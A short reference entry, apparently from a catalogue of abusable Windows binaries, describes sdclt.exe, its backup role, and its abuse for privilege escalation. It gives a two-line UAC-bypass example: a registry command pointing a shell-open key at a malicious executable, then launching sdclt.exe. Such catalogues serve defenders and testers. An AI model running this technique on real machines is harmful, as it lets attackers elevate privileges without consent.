 # sdclt.exe
## What is it?
*sdclt.exe is a Windows binary used for system backup and restore settings.*

## Legitimate Use
- *It helps users configure and restore system backups.*

## How to Abuse it
- *sdclt.exe can be abused to execute arbitrary commands with administrative privileges due to how it interacts with registry keys.*

## Example Attacks
```
reg add HKCU\Software\Classes\Folder\shell\open\command /ve /t REG_SZ /d "C:\malicious.exe"

sdclt.exe
```
